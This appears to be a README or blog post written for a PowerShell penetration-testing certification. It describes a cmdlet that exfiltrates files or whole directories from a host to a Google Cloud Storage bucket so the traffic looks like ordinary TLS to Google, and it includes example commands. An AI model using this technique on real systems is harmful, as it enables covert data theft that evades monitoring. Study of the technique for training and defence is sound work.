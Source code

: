 # Website File Exfil

The idea was to use the google cloud as a way to exfil data as it uses TLS encryption and looks like a host talking to google.

The data can then be viewed anywhere the google storage account is accessed. While this setup requires the install of the google SDK
it does present the intial idea of using it to move files off a host.

This blogpost has been created for completing the requirements of the SecurityTube PowerShell for Penetration Testers Certification Exam:
http://www.securitytube-training.com/online-courses/powershell-for-pentesters/
Student ID: PSP-3237

## Link

Code is located at https://github.com/tubesurf/PSPT

## Getting Started

You need to setup a google cloud account and install the powershell tools. 
The following provides information on how to do this:
* https://cloud.google.com/tools/powershell/docs/quickstart

Once established it's possible to then check via a webrowser the files uploaded or on another computer.

## Example

Commands to run the commandlet...

```
PS C:\> Website-File-Exfil -bucket exfil-bucket -file c:\test.txt
PS C:\> Website-File-Exfil -bucket exfil-bucket -directory c:\Test

```

## Acknowledgments

The Idea for treating googlecloud like a file system for exfiltration from
* https://cloudplatform.googleblog.com/2016/10/treat-Google-Cloud-Storage-like-a-file-system-with-our-new-PowerShell-provider.html

The following setup instructions for google cloud for powershell
* https://4sysops.com/archives/use-powershell-with-google-cloud-platform/

The google cloud reference for functions
* http://googlecloudplatform.github.io/google-cloud-powershell/#/google-cloud-storage
